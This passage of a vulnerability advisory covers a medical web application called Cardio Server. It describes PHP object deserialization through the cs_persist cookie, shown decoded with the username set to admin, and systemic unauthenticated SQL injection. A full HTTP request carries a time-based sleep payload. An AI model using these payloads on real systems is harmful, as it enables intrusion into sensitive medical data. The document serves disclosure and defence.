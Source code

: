 The cookie `cs_persist` is a PHP object generated and parsed using `serialize` and `unserialize` respectively. An attacker can change the data in this cookie to affect data within the session and application, including the username. While this issue can lead to code execution, a gadget chain was not identified.

Cookie:
```
cs_persist=a%3A11%3A%7Bs%3A11%3A%22idc_systype%22%3Bs%3A1%3A%221%22%3Bs%3A4%3A%22name%22%3Bs%3A12%3A%22cardioserver%22%3Bs%3A6%3A%22image1%22%3Bs%3A16%3A%22cardioserver.gif%22%3Bs%3A6%3A%22image2%22%3Bs%3A14%3A%22epiphanyhd.png%22%3Bs%3A6%3A%22image3%22%3BN%3Bs%3A3%3A%22css%22%3Bs%3A6%3A%22cs.css%22%3Bs%3A5%3A%22name2%22%3Bs%3A13%3A%22Cardio+Server%22%3Bs%3A8%3A%22trans_id%22%3BN%3Bs%3A13%3A%22user_language%22%3Bs%3A7%3A%22english%22%3Bs%3A12%3A%22display_type%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22cmUser%22%3Bs%3A5%3A%22admin%22%3B%7D
```

URL Decode:
```
a:11:{s:11:"idc_systype";s:1:"1";s:4:"name";s:12:"cardioserver";s:6:"image1";s:16:"cardioserver.gif";s:6:"image2";s:14:"epiphanyhd.png";s:6:"image3";N;s:3:"css";s:6:"cs.css";s:5:"name2";s:13:"Cardio+Server";s:8:"trans_id";N;s:13:"user_language";s:7:"english";s:12:"display_type";s:0:"";s:6:"cmUser";s:5:"admin";}
```


### Systemic SQL Injection

The application passes request variables directly into SQL strings throughout the codebase, resuling in SQL Injection. Areas where application logic does not expect the user to be authenticated, such as login forms, uses parameterized queries, however; areas where the user is expected to be authenticated do not. Due to broken session validation, it is possible for an unauthenticated user to reach vulnerable code and leverage these issues.

The following request demonstrates this issue. Note, SQL Injection is systemic throughout the application and this represents only a single instance.

Request:
```
GET /library/run_class.php?action=studyInbox&class=inbox&next=0&skip=&skipping=&smsort1=timestamp_performed&smsortorder1=ASC%2c(select*from(select(sleep(20)))a)&archive=&smfield^study_site_code[]=All&smfield^study_mod_type[]=All&smfield^study_status_confirmed[]=Confirmed&smfield^date_performed[]=All&smfield^inbox_find_field[]=pat_name_last&smfield^study_find[]=aaa&findNum=15 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

This request will cause a time delay that is comparable to the time provided in the request (approximately 20 seconds).


### Systemic Cross-Site Scripting

There are many instances where user-supplied data is rendered in a response without being sanitized using a context-aware encoding scheme.
